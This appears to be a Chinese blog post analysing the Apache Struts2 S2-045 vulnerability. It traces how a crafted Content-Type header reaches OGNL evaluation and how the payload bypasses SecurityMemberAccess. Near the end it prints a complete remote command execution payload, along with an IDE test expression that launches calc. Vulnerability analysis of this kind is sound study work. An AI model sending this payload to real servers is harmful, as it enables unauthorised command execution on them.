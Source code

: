 ```yaml
---
layout: post
title: "[web] s2-045漏洞解析"
---
```


#### 0x00 前言####

漏洞已经出来很长时间了，但是一直放着没有分析过，最近看到freebuf上的文章，所以也手痒马上来分析一波(主要是为了摸清触发的流程，以及payload如何构造的)，从以下2个思路进行分析

- 漏洞触发流程
- payload如何工作

调试使用的war包是地址为： https://archive.apache.org/dist/struts/2.5.1/struts-2.5.1-apps.zip (版本为struts2-2.5.1)

#### 0x01 漏洞触发流程 ####

我们先从入口出发，用户发起的请求会通过`WEB-INF/web.xml`中定义的过滤器

![s2-045]({{ '/images/201803/s2-045_1_1.png' | prepend: site.baseurl }})

`org.apache.struts2.dispatcher.filter.StrutsPrepareFilter`就是我们的入口，在`dofileter`中请求会进入`this.prepare.wrapRequest`(org.apache.struts2.dispatcher.PrepareOperations)

![s2-045]({{ '/images/201803/s2-045_1_2.png' | prepend: site.baseurl }})

接着请求会通过`this.dispatcher.wrapRequest`(org.apache.struts2.dispatcher.Dispatcher)开始分发我们的请求

![s2-045]({{ '/images/201803/s2-045_1_3.png' | prepend: site.baseurl }})

在这里会先获取用户的`content_type`(这是我们所能控制的),接着判断我们的`content-type`中是否包含"multipart/form-data",包含就会进入`jakarta`处理流程，接着会进入`MultiPartRequestWrapper`

![s2-045]({{ '/images/201803/s2-045_1_4.png' | prepend: site.baseurl }})

首先会进入`this.multi.parse`(org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest)解析我们的请求

![s2-045]({{ '/images/201803/s2-045_1_5.png' | prepend: site.baseurl }})

在该函数中会产生异常，通过`buildErrorMessage`进行错误信息解析

![s2-045]({{ '/images/201803/s2-045_1_6.png' | prepend: site.baseurl }})

该函数会返回`LocalizedTextUtil.findText`(com.opensymphony.xwork2.util.LocalizedTextUtil)(有些文章跟踪到这里就结束了)，此时函数的参数中`e.getMessage()`其中就包含我们的异常的Content-Type也就是我们的payload

![s2-045]({{ '/images/201803/s2-045_1_7.png' | prepend: site.baseurl }})

会调用原始的`findText`,参数`defaultMessage`包含着我们的`payload`

![s2-045]({{ '/images/201803/s2-045_1_8.png' | prepend: site.baseurl }})

调用`getDefaultMessage`函数

![s2-045]({{ '/images/201803/s2-045_1_9.png' | prepend: site.baseurl }})

最终我们来到了漏洞函数`TextParseUtil.translateVariables`,通过`buildMessageFormat`调用

![s2-045]({{ '/images/201803/s2-045_1_10.png' | prepend: site.baseurl }})

通过`parse.evaluate`进行`ognl`表达式的识别和执行

![s2-045]({{ '/images/201803/s2-045_1_11.png' | prepend: site.baseurl }})

最后再跟入，会发现调用哪个`evaluator.evaluate(var)`，这个就是执行ognl表达式的关键，我们的payload被正确识别出来在var变量中

![s2-045]({{ '/images/201803/s2-045_1_12.png' | prepend: site.baseurl }})

到这里我们的`payload`经历各种函数的调用来到了这里，最终触发漏洞达到命令执行

#### 0x02 payload是如何构造的 ####

虽然知道ognl表达式是在哪里执行的，但是没有接触过所以看到poc也不明白都是些什么，还好通过ide可以直接使用该接口，就尝试了一些语句的执行

![s2-045]({{ '/images/201803/s2-045_2_1.png' | prepend: site.baseurl }})

还可以使用括号(表示一个语句)和.(拼接)来执行多个语句

![s2-045]({{ '/images/201803/s2-045_2_2.png' | prepend: site.baseurl }})

测试到这里，就想看看能弹计算器么...

![s2-045]({{ '/images/201803/s2-045_2_3.png' | prepend: site.baseurl }})

结果悲催的发现失败了，后来才知道这个`SecurityMemberAccess`是struts2的安全管理器，就是防止执行系统命令，对非法字符进行了黑名单校验，通过freebuf的[文章](http://www.freebuf.com/vuls/165488.html)(有详细的poc分析，以及绕过的简单分析)了解到细节，有兴趣的可以去看看

最终就是通过`_memberAccess`利用`DefaultMemberAccess`对象覆盖`SecurityMemberAccess`对象

最后自己整理的直接执行的ognl表达式的payload(这个是在IDE里面直接执行的)

	(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='\"calc\"').(#cmds={'cmd.exe','/c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

最终成熟的`payload`为(也是网上流传最广的一个)

	Content-Type:"%{(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"pwd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=newjava.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

#### 总结： ####

通过IDE很方便的动态调试struts2，清晰的跟踪整个漏洞的流程，了解了用户请求的基本流程以及命令为何执行，同时也了解了基本的ognl表达式，清楚的了解一些poc构造(不会看的很懵)。

ps:也是第一次分析，写的有点流水帐 :)

参考：

http://www.freebuf.com/vuls/165488.html
